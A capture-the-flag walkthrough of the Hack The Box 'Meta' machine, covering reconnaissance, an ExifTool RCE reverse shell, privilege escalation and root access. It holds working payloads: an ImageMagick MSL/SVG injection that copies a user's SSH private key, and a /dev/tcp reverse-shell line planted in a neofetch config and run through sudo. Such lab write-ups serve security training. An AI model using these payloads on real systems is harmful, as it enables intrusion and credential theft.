



## Introduction

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap Service Scanning

```
➜  HTB git:(master) ✗ nmap -Pn -sV -sC 10.10.11.140

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-15 12:33 IST
Nmap scan report for 10.10.11.140
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (EdDSA)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://artcorp.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.71 seconds
```

We can see a Http server running on Port 80 and ssh service running on port22.

### Checking on port 80:

We got the site url : ```artcorp.htb```

Open ```/etc/hosts``` file and add ```10.10.11.140    artcorp.htb```
```
sudo nano /etc/hosts
```

Nothing seems interesting on the website.Lets do a subdomain fuzz using ```ffuf```.I used the following [wordlist.](https://github.com/danielmiessler/SecLists)

```
ffuf -w /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://artcorp.htb/ -H "Host:http://FUZZ.artcorp.htb" -mc all -fc 404,400

```

Yep, found a subdomain ```dev01```.

Open ```/etc/hosts``` file and add ```10.10.11.140    dev01.artcorp.htb```
```
sudo nano /etc/hosts
```

We got a web interface of ```MetaView.``` Uploading a random file gave

Uploading a jpg/png file gave:



Hmmm...this output looks familiar.```Exiftool``` is used for reading, writing and editing meta information in a wide variety of files.
Lets check the output of Exiftool on our local machine.

```
➜  Meta git:(master) ✗ exiftool image.jpg   
ExifTool Version Number         : 10.80
File Name                       : image.jpg
Directory                       : .
File Size                       : 46 kB
File Modification Date/Time     : 2022:03:16 12:22:06+05:30
File Access Date/Time           : 2022:03:16 12:22:51+05:30
File Inode Change Date/Time     : 2022:03:16 12:22:06+05:30
File Permissions                : rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Image Width                     : 750
Image Height                    : 467
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 750x467
Megapixels                      : 0.350

```

Yep we are on the right track. The web interface is using Exiftool to give info of jpg/png files.

## Exiftool | Reverse Shell
Lets search for any vulnerabilities of Exiftool.Found some info here. [Vulnerability](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/).
This enabled a malicious actor to perform a Remote code Execution attack.Let's exploit it.

Found the exploit [here](https://github.com/convisolabs/CVE-2021-22204-exiftool). Download the exploit.py,configfile and image.jpg.

* Change the port and ip in exploit.py
* Run command ```python3 exploit.py```
* Open up a listener on the above port ```nv -nvlp <port-no>```

This will generate a malicious image file. Upload it in the metaview web-interface.Yeah,we got the Reverse Shell.

```
$ whoami
www-data

$ pwd
/var/www/dev01.artcorp.htb/metaview


$ cd /home
$ ls
thomas

```

We have one user thomas.

## User Privilege

Running [LinPeAs](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to get system information.

Found this interesting info:

```
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path
/usr/local/bin/convert_images.sh
/usr/bin/gettext.sh
```

Migrating and seeing the content of the files:

convert_images.sh
```
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

It uses mogrify. Lets do some research and find its vulnerabilities(if any). It is similar to ImageMagick tool and used for
the same purpose.Found one interesting thing [here](https://www.exploit-db.com/exploits/39767). It has CVE-2016-3714 - Insufficient shell characters
 filtering leads to (potentially remote) code execution.

Lets exploit it.

If we look properly ```convert_images.sh``` file migrates to /var/www/dev01.artcorp.htb/convert_images/ and execute mogrify 
on all the files present in the directory. So lets create a .svg file as described [here](https://www.exploit-db.com/exploits/39767).

We also see that there is .ssh folder in /home/thomas which we can't access.Lets try to access that folder using our .svg file.

1. Save this file in /var/www/dev01.artcorp.htb/convert_images/ with .svg extension.

```
<image authenticate='ff" `echo $(cat ~/.ssh/id_rsa) > /dev/shm/id_rsa`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

2. Migrate to /usr/local/bin and execute convert_images.sh

3. Go to /dev/shm and you will find ```id_rsa``` file with user as thomas.

```
$ ls -al
total 4
drwxrwxrwt  2 root   root     60 Mar 24 04:14 .
drwxr-xr-x 16 root   root   3080 Mar 24 02:02 ..
-rw-r--r--  1 thomas thomas 2590 Mar 24 04:14 id_rsa
```

Store the content of id_rsa in local file and used it to ssh as thomas and read the flag.

## System Own

Let's check if we have any commands to run as sudo user.

```
sudo -l 
```

```
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"

```

This shows that user thomas can run ```neofetch command``` as sudo without any password.

Searched if neofetch can be used to get reverse shell and found some relevant info [here](https://gtfobins.github.io/gtfobins/neofetch/#sudo)

There was a .config folder in thomas home directory. Found neofetch config file there. 
Now I added a reverse shell command at the starting of the file.

```
/bin/bash -c "bash &>/dev/tcp/10.10.16.11/4444 <&1"
```

I want that if I run neofetch that it uses this config file I have changed. So for that I changed the base path
to load config file by the following command.

```
export XDG_CONFIG_HOME=/home/thomas/.config
```
#
```
which neofetch 
/usr/bin/neofetch
```

So I opened a listener at my local system and ran the following command from meta.

```
sudo -u root /usr/bin/neofetch
```

and Yipee got the root shell.